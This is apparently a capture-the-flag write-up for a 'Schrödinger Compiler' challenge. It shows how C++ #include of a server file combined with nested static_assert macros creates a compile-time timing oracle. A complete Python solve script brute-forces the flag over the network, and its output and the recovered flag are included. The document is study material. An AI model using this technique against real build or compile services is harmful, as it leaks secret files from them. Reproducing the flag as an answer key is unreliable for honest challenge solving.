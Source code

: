 The challenge is given as this script:
```
#!/bin/sh

echo "[+] Welcome to the Schrödinger Compiler"
echo "[+] We definitely don't have a flag in /flag.txt"
echo "[+] Timeout is 3 seconds, you can run it locally with deploy.sh"

echo ""

echo "[+] Submit the base64 (EOF with a '@') of a .tar.gz compressed "
echo "    .cpp file and we'll compile it for you"
echo "[+] Example: tar cz main.cpp | base64 ; echo "@""
echo "[>] --- BASE64 INPUT START ---"
read -d @ FILE
echo "[>] --- BASE64 INPUT END ---"

DIR=$(mktemp -d)
cd ${DIR} &> /dev/null
echo "${FILE}" | base64 -d 2>/dev/null | tar -xzO > main.cpp 2> /dev/null
ls -l
echo "[+] Compiling with g++ main.cpp &> /dev/null"
g++ main.cpp &> /dev/null
# ./main
# oops we fogot to run it
echo "[+] Bye, it was a pleasure! Come back soon!"
```

This script compiles a `main.cpp` file you supply with `g++`, but does not run it. The output of the compilation is also not returned in stdout or stderr and the other challenge files indicate there is a three second timeout. The trick here is to get information out of the compile process through some other means.

Using some inspiration from this writeup (https://github.com/welchbj/ctf/blob/master/docs/miscellaneous.md#error-code-oracles) on Error Code Oracles and this writeup for a "compilerbot" challenge in another CTF (https://ctftime.org/writeup/17952), I had a way to include the flag in the `main.cpp` file at compile time.

I chose to use a timing oracle to get information out of the compilation process but I needed a way to get the compilation to take a long (or short) time for errors the compilation. After searching for a while I ended up using the `static_assert()` directive. To get the timing to take a while, I used a rudimentary nested `#define` expansion to get the same line of code many times in expanded, pre-processed code. A main.cpp file like the following seemed to get the timing about right for the challenge:

```cpp
int main() {
static constexpr const char flag_string[] =
#include "../../flag.txt"
;
#define a static_assert(flag_string[%d] == '%c');
#define b a a a a a a a
#define c b b b b b b b
#define d c c c c c c c
#define e d d d d d d d
#define f e e e e e e e
#define g f f f f f f f
#define h g g g g g g g
#define i h h h h h h h
#define j i i i i i i i
e;
}
```

where the `%d` and `%c` values are filled in to brute force the flag character at each index. Wrapping this all up into one script, I can brute force the flag in a couple minutes:

```python
#!/usr/bin/env python3

import subprocess
import socket
import time
import base64
import time
import string

BUFSIZE = 1024
DEBUG = False

def readuntil(s,val):
    buf = b''
    while not buf.endswith(val):
        ret = s.recv(BUFSIZE)
        buf = buf + ret
        if DEBUG and len(buf)%16 == 0:
            print(buf)
        if len(ret) == 0:
            break
    if DEBUG:
        print(buf)
    return buf

def sendall(s,buf):
    if DEBUG:
        print('>>', buf)
    n = s.send(buf)

def chal_exec(i=0,ch='g'):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
    #s.connect(('localhost',1337))
    s.connect(('challs.glacierctf.com',13372))

    prog = '''int main() {
static constexpr const char flag_string[] =
#include "../../flag.txt"
;
#define a static_assert(flag_string[%d] == '%c');
#define b a a a a a a a
#define c b b b b b b b
#define d c c c c c c c
#define e d d d d d d d
#define f e e e e e e e
#define g f f f f f f f
#define h g g g g g g g
#define i h h h h h h h
#define j i i i i i i i
e;
}
''' % (i,ch)

    with open('main.cpp','wb') as fhandle:
        fhandle.write(prog.encode())
        fhandle.close()

    res = subprocess.Popen(['tar','cz','main.cpp'],stdout=subprocess.PIPE).communicate()[0]
    readuntil(s,b'[>] --- BASE64 INPUT START ---\n')

    t = time.time()
    sendall(s,base64.b64encode(res)+b'@\n')
    while True:
        res = s.recv(1024)
        #print(res.decode())
        if len(res) == 0:
            break
    t = time.time()-t
    print(i,ch,t)
    return t

if __name__ == '__main__':
    t0 = chal_exec(0,'f')
    t1 = chal_exec(0,'g')
    t2 = chal_exec(0,'h')

    threshold = (((t0+t2)/2) + t1) / 2 # will depend on the latency of your network

    ans = '' # gctf{1420_1S_Th3_C0mP1ler_D34D_0R_4l1v3_2928}
    for i in range(len(ans),50):
        for ch in "{}" + string.digits + "_" + string.ascii_lowercase + string.ascii_uppercase:
            t = chal_exec(i,ch)
            if t < threshold:
                ans = ans + ch
                print('found answer:',ans)
                break
```

The output from the script looks like:

```
$ ./solve.py
0 f 0.32239699363708496
0 g 0.2005460262298584
0 h 0.3237192630767822
0 { 0.3208949565887451
0 } 0.3365519046783447
0 0 0.31276416778564453
0 1 0.3241081237792969
0 2 0.32456421852111816
0 3 0.3121967315673828
0 4 0.31543397903442383
0 5 0.33190202713012695
0 6 0.32513880729675293
0 7 0.33641862869262695
0 8 0.3229410648345947
0 9 0.32616090774536133
0 _ 0.3277008533477783
0 a 0.312075138092041
0 b 0.3191192150115967
0 c 0.3443782329559326
0 d 0.33722710609436035
0 e 0.3113877773284912
0 f 0.344249963760376
0 g 0.21387171745300293
found answer: g
1 { 0.3224811553955078
...
43 6 0.32977795600891113
43 7 0.32803988456726074
43 8 0.2041459083557129
found answer: gctf{1420_1S_Th3_C0mP1ler_D34D_0R_4l1v3_2928
44 { 0.32526302337646484
44 } 0.2021172046661377
found answer: gctf{1420_1S_Th3_C0mP1ler_D34D_0R_4l1v3_2928}
```

